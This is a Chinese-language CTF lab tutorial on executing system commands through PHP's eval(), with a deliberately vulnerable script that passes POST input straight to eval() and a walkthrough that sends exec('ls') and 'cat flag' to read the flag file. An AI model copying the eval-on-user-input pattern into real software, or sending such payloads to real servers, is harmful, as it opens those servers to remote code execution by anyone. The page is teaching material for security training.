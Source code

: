 ```yaml
---
title: 通过eval( )执行系统命令
tags:
    - web
    - php
createTime: 2025/02/05 10:51:28
permalink: /security/eval/
---
```



## 概览

文件目录

::: file-tree

- workspace     \# 工作目录
  - test.php    \# php文件
  - KILLME.md   \# 演示文件
  - flag        \# flag

:::

文件内容

::: code-tabs

@tab test.php

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         

eval($_POST['cmd']);
?>

```

@tab KILLME.md

```md
# 不服就来砍我！
```

@tab flag

```
flag{4h1s_1s_f1ag}
```

:::


## 知识回顾

### 代码显示

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         
?>
```

`highlight_file()`是一个PHP内置函数，用于将指定文件的内容以HTML高亮的形式输出。它会读取文件内容，并以语法高亮的方式显示代码，便于阅读和调试。如果文件中包含PHP代码，它会将PHP代码以HTML高亮的形式展示，而不是直接执行代码。

`__FILE__`是PHP的一个魔术常量，返回当前脚本的绝对路径和文件名


`error_reporting()`是一个PHP内置函数，用于设置PHP的错误报告级别。

`0`表示禁用所有错误报告。这意味着PHP在运行时不会显示任何错误、警告或通知（如 E_NOTICE、E_WARNING、E_ERROR 等）


### 参数传递

使用`GET`和`POST`方法传参，以下是一个演示例子：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);  
if (isset($_GET['name']) && isset($_GET['gender']) && isset($_POST['id']) && isset($_POST['age'])) {
    $name = $_GET['name'];
    $gender = $_GET['gender'];
    $id = $_POST['id'];
    $age = $_POST['age'];
    echo "name:$name gender:$gender id:$id age:$age";
} else {
    echo "请传递参数给我";
}
?>
```
使用hackbar插件传参，效果如下

![](img/1.png "演示")


### eval( )

`eval()`将字符串视为PHP代码进行执行，允许在运行时动态生成并执行代码

::: code-tabs

@tab show-1.php

```php
<?php
$code = "echo 'Hello, World!';";
eval($code); // 输出：Hello, World!
?>
```

@tab show-2.php

```php
<?php
$a = 10;
$b = 20;
eval("echo \$a + \$b;");
// 输出：30
?>
```

:::

### exec( )

`exec()`是一个用于执行外部程序的功能强大的函数。它允许你在PHP脚本中运行系统命令，并可以获取命令的输出或状态码。

::: code-tabs

@tab show-1.php

```php
<?php
// 执行外部命令
$output = exec('date');
echo "当前时间: $output";
?>
```

@tab show-2.php

```php
<?php
// 执行外部命令，并将输出存储到 $output 数组中
$output = [];
$return_var = 0;
exec('ls -l', $output, $return_var);

// 检查命令是否执行成功
if ($return_var === 0) {
    echo "命令执行成功，输出如下：<br>";
    foreach ($output as $line) {
        echo htmlspecialchars($line) . "<br>";
    }
} else {
    echo "命令执行失败，状态码: $return_var";
}
?>
```

:::


## 实战

分析目标代码，我们很容易得知要对eval部分进行下手

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         

eval($_POST['cmd']); // [!code focus]
?>
```

我们可以写出对应的指令

```php
exec('ls', $output); // 在这里面添加我们想执行的指令
foreach ($output as $line) {
    echo $line . "<br>";
}

```
接着，用POST传参（可以传多个语句）
![](img/2.png)
发现flag，使用“cat flag”得到flag
![](img/3.png)

